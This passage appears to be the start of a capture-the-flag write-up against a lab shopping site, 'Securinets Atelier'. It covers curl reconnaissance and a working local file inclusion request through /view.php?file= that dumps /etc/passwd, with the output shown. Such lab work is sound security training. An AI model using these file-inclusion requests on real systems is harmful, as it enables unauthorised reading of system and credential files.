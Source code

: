 ```bash
curl -I http://172.19.4.10/
```

**Response:**
```
HTTP/1.1 200 OK
Date: Sun, 26 Oct 2025 01:57:37 GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Type: text/html; charset=UTF-8
```

---

## Web Application Analysis

### Homepage Exploration

```bash
curl -s http://172.19.4.10/ | head -100
```

The application is a shopping site called **"Securinets Atelier"** with the following features:
- Product catalog with items (hoodies, tees, jackets, etc.)
- Product detail pages accessible via `/item.php?id=<product-id>`
- Spec viewer functionality with `spec` parameter

### Directory Discovery

Looking at the page source, we find interesting endpoints:

```html
<a href="/item.php?id=black-tee">Midnight Essential Tee</a>
<a href="/item.php?id=black-tee&spec=pages%2Fblack">Specs</a>
<a href="/view.php?file=pages/blue">Spec viewer</a>
```

**Key Finding**: `/view.php?file=` parameter suggests potential file inclusion vulnerability.

---

## Local File Inclusion (LFI) Exploitation

### Testing /view.php for LFI

```bash
curl -s "http://172.19.4.10/view.php?file=/etc/passwd"
```

**Output:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:101:101:MariaDB Server,,,:/nonexistent:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
shopuser:x:1001:1001::/home/shopuser:/bin/bash
```
